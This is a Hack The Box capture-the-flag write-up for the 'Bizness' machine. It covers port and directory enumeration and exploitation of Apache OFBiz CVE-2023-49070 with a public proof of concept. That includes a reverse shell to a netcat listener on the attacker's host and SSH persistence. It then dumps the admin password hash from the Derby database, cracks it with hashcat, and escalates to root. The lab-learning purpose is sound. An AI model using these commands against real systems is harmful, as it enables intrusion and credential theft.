




+++
title = 'Bizness'
date = 2024-01-14T21:17:42+02:00
draft = false
tags = ['htb', 'writeup']
summary = '[Bizness](https://app.hackthebox.com/machines/Bizness) is an easy CTF machine from HTB. The initial access is trivial, but the privilege escalation bit was a little bit harder. Overall a fun challenge, shoutout to [C4rm3l0](https://app.hackthebox.com/users/458049).'
description = '"Bizness" is an easy Linux CTF machine. Released on 6th of January, 2024 (HackTheBox).'
thumbnail = 'img/bz-logo.png'
+++

Initial Access
==============

Enumeration
-----------

### Nmap scan

Starting the attack with a port scan on all the ports:

```bash
sudo nmap -v -p- -oN scans/nmap/ports $IP
```

The Nmap scan results in 4 ports found:
```text
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
37781/tcp open  unknown
```

Version & default script scan:
```bash
sudo nmap -v -sC -sV -p 22,80,443,37781 -oN scans/nmap/init $IP
```

Detailed scan results show that the website is using virtual hosts. Additionaly port, but I have no idea of what that is:
```text
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp    open  http       nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   nginx 1.18.0
|_http-favicon: Unknown favicon MD5: 7CF35F0B3566DB84C7260F0CC357D0B8
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: nginx/1.18.0
|_http-title: BizNess Incorporated
|_http-trane-info: Problem with XML parsing of /evox/about
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-14T20:03:40
| Not valid after:  2328-11-10T20:03:40
| MD5:   b182 2fdb 92b0 2036 6b98 8850 b66e da27
|_SHA-1: 8138 8595 4343 f40f 937b cc82 23af 9052 3f5d eb50
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
37781/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Website enumeration

Add `bizness.htb` to `/etc/hosts`. Once that is done we can visit the website:


First thing that I did was I ran a FFUF scan on the root of the app. It found an interesting directory `/control`:
```bash
ffuf -u https://bizness.htb/FUZZ -c -w /opt/SecLists/Discovery/Web-Content/common.txt -fs 0
```

```text

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 0
________________________________________________

index.html              [Status: 200, Size: 27200, Words: 9218, Lines: 523]
control                 [Status: 200, Size: 34632, Words: 10468, Lines: 492]
```

I visited the directory and it revealed the software behind the application, however; there were no versions. I dicided to do another scan and found additional endpoints:
```bash
ffuf -u https://bizness.htb/control/FUZZ -c -w /opt/SecLists/Discovery/Web-Content/common.txt -fw 10468
```

```text

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/control/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 10468
________________________________________________

help                    [Status: 200, Size: 10756, Words: 1182, Lines: 180]
logout                  [Status: 200, Size: 10756, Words: 1182, Lines: 180]
main                    [Status: 200, Size: 9308, Words: 913, Lines: 141]
login                   [Status: 200, Size: 11060, Words: 1236, Lines: 186]
views                   [Status: 200, Size: 9308, Words: 913, Lines: 141]
view                    [Status: 200, Size: 9308, Words: 913, Lines: 141]
```

Exploitation
------------

### CVE enumeration

Going to `https://bizness.htb/control/login` reveals the version as `Powered by Apache OFBiz. Release 18.12`. Multiple exploits exist, but the one I exploited is `CVE-2023-49070` (Pre-auth RCE). I'ts not hard to do it manually but I found an [exploit](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC).
```bash
git clone https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC.git
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

I decided to test the exploit before gaining a shell, by simply making a HTTP request to my box:
```bash
python3 exploit.py https://bizness.htb/ rce 'curl $MY_IP'
```



### Gaining foothold

The exploit also provides us a shell functionality, so I did not have to create my own shell:
```bash
sudo rlwrap nc -lnvp 443
python3 exploit.py https://bizness.htb/ shell $MY_IP:443
```



After I got the shell I created persistance via SSH keys. This, however; is not really required but it makes the whole enumeration phase easier. I also grabbed the flag at `/home/ofbiz/user.txt`.

Priviledge Escalation
=====================

Enumeration
-----------

### Database

The app uses a databas located at `/opt/ofbiz/runtime/data/derby/ofbiz`. I TAR'ed the directory and transfered it to my box:
```bash
tar cf ofbiz.tar ofbiz
tar xf ofbiz.tar
```

To browse the database I used the Apache IJ tool. Installable & runnable via these commands:
```bash
sudo apt install derby-tools && ij
```

I then dumped the passwords from the `USER_LOGIN` table:
```text
ij version 10.14
ij> connect 'jdbc:derby:./ofbiz';
ij> select user_login_id, current_password from ofbiz.user_login where current_password is not null;

USER_LOGIN_ID   |   CURRENT_PASSWORD                                                                  
---------------------------------------------------
admin           |   REDACTED           

1 row selected
```

### Password cracking

The password has a weird format, and its not simply crackable. I'ts format: `$<ALGORITHM>$<SALT>$<BASE64_HASH>`. The code that is responsible for this:

```java
public static String cryptBytes(String hashType, String salt, byte[] bytes) {
    if (hashType == null) {
        hashType = "SHA";
    }
    if (salt == null) {
        salt = RandomStringUtils.random(new SecureRandom().nextInt(15) + 1, CRYPT_CHAR_SET);
    }
    StringBuilder sb = new StringBuilder();
    sb.append("$").append(hashType).append("$").append(salt).append("$");
    sb.append(getCryptedBytes(hashType, salt, bytes));
    return sb.toString();
}

private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
    try {
        MessageDigest messagedigest = MessageDigest.getInstance(hashType);
        messagedigest.update(salt.getBytes(UtilIO.getUtf8()));
        messagedigest.update(bytes);
        return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
    } catch (NoSuchAlgorithmException e) {
        throw new GeneralRuntimeException("Error while comparing password", e);
    }
}
```

I'ts important to note that the hash is encoded as URL safe. This tripped me up a bit since I tried regular decode first and it did not work. Just note that in CyberChef you have to select alphabet as `URL safe (RFC 4648 §5) A-Za-z0-9-_`. Decode the Base64:



We then format the hash file for the `120` HashCat format. Hint: `Yes the salt is only a single letter`:

```text
<HASH>:<SALT>
```

To crack the hash we use HashCat with `rockyou.txt`:

```bash
sudo hashcat -a 0 -m 120 hash /opt/rockyou.txt
```



Using the cracked password it is possible to login as `root`:

```bash
su root
cat /root/root.txt
```
